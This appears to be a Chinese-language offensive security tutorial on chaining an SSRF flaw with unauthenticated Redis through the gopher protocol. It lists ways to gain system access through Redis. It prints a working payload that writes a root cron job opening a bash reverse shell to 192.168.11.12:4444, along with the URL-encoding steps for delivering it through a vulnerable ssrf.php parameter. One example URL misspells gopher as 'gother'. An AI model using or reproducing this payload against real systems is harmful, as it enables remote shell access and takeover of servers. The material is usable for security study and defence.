 



### SSRF + Redis未授权

众所周知，redis未授权的三种姿势：

1.redis写入ssh公钥，获取操作系统权限；

2.直接向Web目录中写webshell； 

3.linux计划任务执行命令反弹shell。



使用gopher协议来实现

#### gopher协议

- Gopher 协议是 HTTP 协议出现之前，在 Internet 上常见且常用的一个协议
- Gopher 协议可以做很多事情，特别是在 SSRF 中可以发挥很多重要的作用
- 利用此协议可以攻击内网的 FTP、Telnet、Redis、Memcache，也可以进行 GET、POST 请求
- Gopher 可以模仿 POST 请求，故探测内网的时候不仅可以利用 GET 形式的 PoC（经典的 Struts2），还可以使用 POST 形式的 PoC。

#### **比如：**

存在ssrf的漏洞地址为：`http://192.168.1.11/ssrf.php?url=`

结合gother协议构造符合格式的paylod，从而模拟redis通信

```bash
http://192.168.1.11/ssrf.php?url=gother://127.0.0.1:6379/_payload
#转换为：
http://192.168.1.11/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_payload
```

payload如下：

```bash
## 这里使用利用redis写计划任务任务来反弹shell的利用方式
set x "\n\n*/1 * * * * /bin/bash -i >& /dev/tcp/192.168.11.12/4444 0>&1\n\n"
config set dir /var/spool/cron/
config set dbfilename root
save

```

将以上命令构造成符合gopher协议格式，且能够通过URL传输的格式来发送，需要经过如下**步骤**：

1.将payload进行url编码

2.替换`%0a`为`%0d%0a`

3.然后再重复一次以上的两个步骤

> 原因：替换回车换行为%0d%0a，空格以%20替换, HTTP包最后加%0d%0a`代表消息结束

4.将得到的结果，替代`http://192.168.1.11/ssrf.php?url=gopher%3a%2f%2f127.0.0.1%3a6379%2f_payload`里面payload的位置得到


